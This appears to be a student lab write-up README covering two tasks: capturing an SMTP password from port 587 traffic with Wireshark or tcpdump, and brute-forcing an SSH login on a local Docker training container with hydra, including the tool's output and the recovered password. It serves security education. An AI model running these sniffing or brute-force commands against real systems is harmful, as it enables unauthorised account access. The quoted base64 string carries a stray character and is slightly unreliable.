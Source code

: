 # attack_is_the_best_defense

## Task 0

- Just use wireshark with filter tcp.port = 587
- Start listenening and execute the script `user_authenticating_into_server`
- Check the command line packets or search for password key word
- The base64 password is `bXlwYXNzd29yZDk4OTgh7` use any online base64 encode/decode tool to get the password `mypassword9898!`

- Also you can use `tcpdump` command to get the password

```sh
$ tcpdump -A 'port 587'
...
```

- Use flag `-A` to print packet contents
- Add expression `port 587` to filter packets and print only packets has dist/src port = 587
- Also you can add flag `-w <filename>.pcap` to save packets to a file then use Wireshark or any [online viewer](https://apackets.com) to analyze the packets.

## Task 1

- Use hydra tool to bruteforce the ssh account password for the user `sylvain`
- The docker image `sylvainkalache/264-1`
- Find your own passwords dictionary online, I used [this one](https://github.com/danielmiessler/SecLists/blob/master/Passwords/2020-200_most_used_passwords.txt)

```sh
docker run -p 2222:22 --name my_server -d -ti sylvainkalache/264-1
```

- I used the `hydra-wizard` tool to build my command according to my case

```sh
$ hydra -l sylvain -P 2020-200_most_used_passwords.txt -u  -s 2222  0.0.0.0:2222 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-31 23:04:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 197 login tries (l:1/p:197), ~13 tries per task
[DATA] attacking ssh://0.0.0.0:2222/
[2222][ssh] host: 0.0.0.0   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 9 final worker threads did not complete until end.
[ERROR] 9 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-31 23:05:34
```

The password is `password123`
